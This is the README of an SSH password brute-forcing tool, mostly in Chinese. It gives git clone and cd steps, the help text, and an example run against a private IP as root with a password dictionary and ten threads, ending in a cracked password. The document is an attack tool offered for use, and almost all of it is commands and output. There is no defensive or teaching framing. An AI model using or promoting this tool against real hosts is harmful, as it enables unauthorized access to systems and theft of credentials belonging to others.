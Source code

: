 # SSH_Bruteforce
#### 获取脚本

`git clone https://github.com/HZzz2/SSH_Bruteforce`

#### 进入目录

`cd SSH_Bruteforce`

#### 获取帮助

```Bash
python SSH_Bruteforce.py -h

usage: SSH_Bruteforce.py [-h] -H HOST -u USER -f FILE -t THREAD

exmple: python3 SSH_Bruteforce.py -H 192.168.1.180 -u root -f password.txt -t 10

optional arguments:

  -h, --help            show this help message and exit

  -H HOST, --host HOST  Hostname/IP       要爆破的主机IP

  -u USER, --user USER  Username          SSH用户名

  -f FILE, --file FILE  Password file     密码字典

  -t THREAD, --thread THREAD              线程数

    Thread number
```

#### 执行脚本

```Bash
python SSH_Bruteforce.py -H 192.168.1.180 -u root -f password.txt -t 10
[-] 11 is not correct
[-] 44 is not correct
[-] 88 is not correct
[-] 55 is not correct
[-] 22 is not correct
[-] 77 is not correct
[+] 123456 is correct
SSH PassWord：123456
```

